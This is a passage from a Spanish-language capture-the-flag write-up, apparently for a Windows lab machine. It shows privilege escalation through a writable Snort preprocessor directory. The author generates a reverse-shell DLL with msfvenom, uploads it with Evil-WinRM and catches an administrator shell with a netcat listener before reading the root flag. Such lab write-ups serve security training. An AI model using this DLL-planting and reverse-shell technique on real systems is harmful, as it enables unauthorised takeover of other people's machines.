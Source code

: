 Vemos que el grupo `Utilisateurs` puede escribir `WD -> Write Data` y `AP -> Append Data` añadir datos  y nosotros pertenecemos a este grupo, lo podemos comprobar con `whoami /groups`

Ahora que tenemos el vector de ataque claro..

Podemos probar a crear un archivo .dll malicioso.

```shell
$  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -a x64 -o shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
```

Y a subirlo en este directorio.
```powershell
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> upload shell.dll
                                        
Info: Uploading /home/pointedsec/Desktop/analysis/content/shell.dll to C:\Snort\lib\snort_dynamicpreprocessor\shell.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
```

Después de esperar un rato..

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.230.179] 54068
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
analysis\administrateur
```


Podemos ver la flag de `root`
```cmd
C:\Users\Administrateur\Desktop>type root.txt
type root.txt
749dd2480737c7...
```

¡Y ya estaría!

Happy Hacking! 🚀